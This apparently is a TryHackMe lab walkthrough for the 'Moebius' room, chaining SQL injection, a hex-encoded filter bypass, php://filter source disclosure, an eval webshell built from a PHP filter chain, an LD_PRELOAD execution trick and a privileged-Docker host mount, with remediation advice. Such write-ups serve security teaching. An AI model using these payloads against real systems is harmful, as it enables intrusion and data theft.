






# 🌀 Moebius — TryHackMe Penetration Testing Walkthrough

<p align="center">
  
</p>

<p align="center">
  
  
  
</p>

---

## 📌 Overview

This documentation presents a complete penetration-testing walkthrough for the **Moebius** room on **TryHackMe**. The assessment follows the attack chain from network reconnaissance through SQL injection, local file disclosure, PHP source analysis, application-level code execution, container compromise, and host filesystem access.

> **Environment:** Authorized TryHackMe Lab  
> **Assessment Type:** Black-box CTF assessment  
> **Operating System:** Linux / containerized web application

---

## 📑 Table of Contents

- Executive Summary
- Assessment Methodology
- Reconnaissance
- Web Application Enumeration
- SQL Injection
- File Disclosure
- PHP Source Analysis
- Application-Level Code Execution
- Initial Access
- Container Security Analysis
- Host Filesystem Access
- Database Enumeration
- MITRE ATT&CK Mapping
- Security Findings
- Remediation
- Lessons Learned
- Conclusion

---

# Executive Summary

The Moebius room demonstrates a chained compromise beginning with a SQL injection in the `short_tag` parameter. Database manipulation leads to a file-disclosure primitive, which is used to recover Linux files and PHP source code.

The disclosed source reveals application security controls, the HMAC mechanism protecting image retrieval, and security-sensitive configuration. A PHP stream-filter execution path is then combined with the supplied `LD_PRELOAD`/Chankro technique to obtain a shell.

The resulting shell is inside a privileged Docker container. Host block-device access allows the host filesystem to be mounted, exposing Docker deployment files and database configuration. The final challenge value is intentionally redacted.

---

# Assessment Methodology

```text
Reconnaissance
      ↓
Service Enumeration
      ↓
Web Application Analysis
      ↓
SQL Injection
      ↓
Filter Bypass
      ↓
Local File Disclosure
      ↓
PHP Source / Secret Recovery
      ↓
PHP Filter Chain RCE
      ↓
Container Foothold
      ↓
Privileged Container Analysis
      ↓
Host Filesystem Access
      ↓
Protected Database Access
```

---

# 1. Reconnaissance

## Network Enumeration

```bash
sudo nmap -sS -sV -p- -A 10.10.114.39
```

### Relevant Results

| Port | Service | Version |
| --- | --- | --- |
| 22/tcp | SSH | OpenSSH 8.9p1 |
| 80/tcp | HTTP | Apache 2.4.62 (Debian) |

The HTTP service exposed the **Image Grid** application and became the main attack surface.

<p align="center">

</p>

**Figure 01 — Image Grid application exposed by the target web service.**

---

# 2. Web Application Enumeration

The application exposed album functionality through:

```text
/album.php?short_tag=cute
```

The `short_tag` parameter was selected for input-validation testing.

A content-discovery pass was also performed with FFUF:

```bash
ffuf -u http://TARGET/FUZZ \
     -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt \
     -e .php -ac
```

The supplied results identified:

```text
index.php
image.php
album.php
```

---

# 3. SQL Injection

An invalid `short_tag` value produced a MariaDB syntax error.

<p align="center">

</p>

**Figure 02 — Database error behavior confirming that the parameter reaches SQL processing.**

sqlmap then confirmed the parameter as injectable:

```bash
sqlmap "http://TARGET/album.php?short_tag=cute"
```

The supplied output identified:

- Boolean-based blind SQL injection.
- Error-based SQL injection.
- Time-based blind SQL injection.
- UNION-based SQL injection.

The UNION technique was especially useful because it returned attacker-controlled values through the application.

---

## Database Enumeration

```bash
sqlmap "http://TARGET/album.php?short_tag=cute" --dbs
```

The available databases included:

```text
information_schema
web
```

The `web` database contained:

```text
albums
images
```

<p align="center">

</p>

**Figure 03 — SQL injection used to enumerate the web database and its tables.**

---

## UNION Manipulation

The supplied evidence used:

```text
moebius' UNION SELECT 0 -- -
```

and:

```text
moebius' UNION SELECT 0 or 1=1 -- -
```

The resulting HTML reflected the injected value.

<p align="center">

</p>

**Figure 04 — UNION-based SQL manipulation reflected by the application response.**

---

# 4. File Disclosure

The application filtered `/` and `;` from `short_tag`:

```php
if (preg_match('/[\/;]/', $_GET['short_tag'])) {
    die("Hacking attempt");
}
```

Instead of relying on a literal slash, the path was represented as a hexadecimal SQL literal.

```text
/etc/passwd
```

became:

```text
0x2F6574632F706173737764
```

This bypassed the character filter and enabled local file retrieval.

<p align="center">

</p>

**Figure 05 — Local file disclosure of `/etc/passwd`.**

---

# 5. PHP Source Analysis

The image endpoint accepted:

```text
image.php?hash=<HMAC>&path=<path>
```

The recovered application logic generated the hash with:

```php
hash_hmac('sha256', $path, $SECRET_KEY)
```

The application secret was present in configuration recovered through the same file-disclosure primitive. The actual secret is intentionally omitted from this public case study.

The `php://filter` wrapper was then used to retrieve PHP source:

```text
php://filter/read=convert.base64-encode/resource=/var/www/html/index.php
```

The recovered source exposed:

* Database connection logic.
* SQL query construction.
* The `/` and `;` blacklist.
* Image-path handling.
* HMAC generation.
* Application configuration.

<p align="center">

</p>

**Figure 06 — Application file retrieval endpoint used during source-disclosure analysis.**

---

# 6. Application-Level Code Execution

The supplied material used a PHP filter-chain generator:

```bash
python3 php_filter_chain_generator/php_filter_chain_generator.py \
  --chain '<?php eval($_REQUEST[0]);?>'
```

The resulting execution path reached PHP but encountered a disabled `system()` function.

<p align="center">

</p>

**Figure 07 — Filter-chain execution reached PHP but hit a disabled execution function.**

The supplied workflow then moved to an `LD_PRELOAD` technique:

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

and a PHP-triggered environment/process path:

```php
putenv('LD_PRELOAD=/tmp/shell.so');
mail('a','a','a','a');
```

The exact shared-object source was not supplied and is therefore not reconstructed.

---

# 7. Initial Access

The supplied evidence confirms a reverse-shell connection:

```text
Listening on [any] 4444 ...
connect to [10.11.134.137] from (UNKNOWN) [10.10.177.162] 46420
```

The shell identified the process as `www-data`.

<p align="center">

</p>

**Figure 08 — Initial shell established as `www-data` inside the web container.**

The next objective was to determine whether the shell was isolated or whether the container had excessive privileges.

---

# 8. Container Security Analysis

The supplied enumeration showed:

```bash
grep CapEff /proc/self/status
```

with:

```text
CapEff: 000001ffffffffff
```

The recovered Docker Compose configuration also contained:

```yaml
privileged: true
```

This combination indicated that the web container had significantly more host access than a normal application container.

---

# 9. Host Filesystem Access

The supplied post-exploitation sequence mounted the host partition:

```bash
mkdir -p /mnt/tmp3
mount /dev/nvme0n1p1 /mnt/tmp3
```

The mounted filesystem contained a complete Linux root hierarchy, including:

```text
bin
boot
dev
etc
home
lib
opt
root
run
sbin
srv
sys
tmp
usr
var
```

The evidence then continued into the host-side environment.

<p align="center">

</p>

**Figure 09 — Container-side filesystem and post-exploitation environment evidence.**

The security boundary failed because a privileged application container could access a host block device.

---

# 10. Database Enumeration

The host-side Docker environment contained:

```text
challenge-db-1
challenge-web-1
```

The recovered Compose configuration showed:

```yaml
web:
  ports:
    - "80:80"
  privileged: true

db:
  image: mariadb:10.11.11-jammy
  volumes:
    - "./db:/docker-entrypoint-initdb.d:ro"
  env_file:
    - ./db/db.env
```

The database environment file contained credentials. They are redacted here because this is a public portfolio repository.

The supplied MariaDB enumeration identified:

```text
information_schema
mysql
performance_schema
secret
sys
web
```

The `secret` database contained a `secrets` table.

The final challenge value is intentionally withheld:

```text
[FLAG REDACTED]
```

---

# MITRE ATT&CK Mapping

| Tactic | Technique |
| --- | --- |
| Initial Access | T1190 — Exploit Public-Facing Application |
| Credential Access | T1552.001 — Credentials In Files |
| Discovery | T1083 — File and Directory Discovery |
| Execution | T1059.004 — Unix Shell |
| Privilege Escalation / Defense Evasion | T1611 — Escape to Host |

---

# Security Findings

| Finding | Severity |
| --- | --- |
| SQL Injection | 🔴 High |
| Arbitrary File Disclosure | 🔴 High |
| Application Secret Exposure | 🟠 High |
| PHP Filter-Chain / RCE Path | 🔴 Critical |
| Privileged Docker Container | 🔴 Critical |
| Host Device Exposure | 🔴 Critical |
| Plaintext Database Credentials | 🟠 High |

---

# Defensive Recommendations

## Web Application

- Use parameterized SQL queries.
- Eliminate raw filesystem paths from user input.
- Use allowlisted image identifiers.
- Keep secrets outside the web root.
- Return generic database errors.

## PHP Runtime

- Avoid dynamic code evaluation.
- Review enabled stream wrappers.
- Disable unnecessary dangerous functions.
- Restrict environment manipulation and child-process behavior.

## Container Security

- Remove `privileged: true`.
- Drop unnecessary Linux capabilities.
- Restrict device access.
- Apply seccomp/AppArmor/SELinux controls.
- Run the application with least privilege.

## Secrets

- Use a dedicated secrets manager.
- Rotate exposed credentials.
- Restrict deployment-file permissions.
- Never expose database root credentials to the application container unnecessarily.

## Detection

Monitor for:

* SQL syntax errors and anomalous parameters.
* `php://` wrapper requests.
* Web processes launching unexpected binaries.
* Unexpected outbound shell connections.
* `mount` operations from application containers.
* Access to host block devices.
* Unexpected database authentication paths.

---

# Lessons Learned

### Technical

- SQL injection can become a bridge into filesystem access.
- PHP source disclosure often reveals the real trust boundaries of an application.
- Character blacklists are weak against alternate representations.
- Container privileges must be audited alongside application vulnerabilities.
- Deployment configuration is sensitive security data.

### Documentation

- Evidence should be placed beside the reasoning it supports.
- Source-derived output and visual evidence should be distinguished.
- A professional assessment explains root cause and defensive controls, not only exploitation.

---

# Assessment Outcome

| Objective | Status |
| --- | --- |
| Reconnaissance | ✅ |
| Web Enumeration | ✅ |
| SQL Injection Validation | ✅ |
| Database Enumeration | ✅ |
| Local File Disclosure | ✅ |
| PHP Source Analysis | ✅ |
| Application Code Execution | ✅ |
| Container Analysis | ✅ |
| Host Filesystem Access | ✅ |
| Protected Database Access | ✅ |

---

# References

- TryHackMe Moebius Room.
- OWASP SQL Injection.
- OWASP Path Traversal.
- PHP Stream Wrappers and Filters.
- Docker Security Documentation.
- MITRE ATT&CK.
- HackTricks.

---

## Repository Information

| Project | Value |
| --- | --- |
| Repository | Moebius-TryHackMe-Walkthrough |
| Author | Anurag Ravankar |
| Category | Penetration Testing Documentation |
| Platform | TryHackMe |
| Environment | Authorized Training Lab |

---

> **Disclaimer:** This documentation was created for an authorized TryHackMe training environment. Challenge flags and sensitive CTF credentials are intentionally redacted.
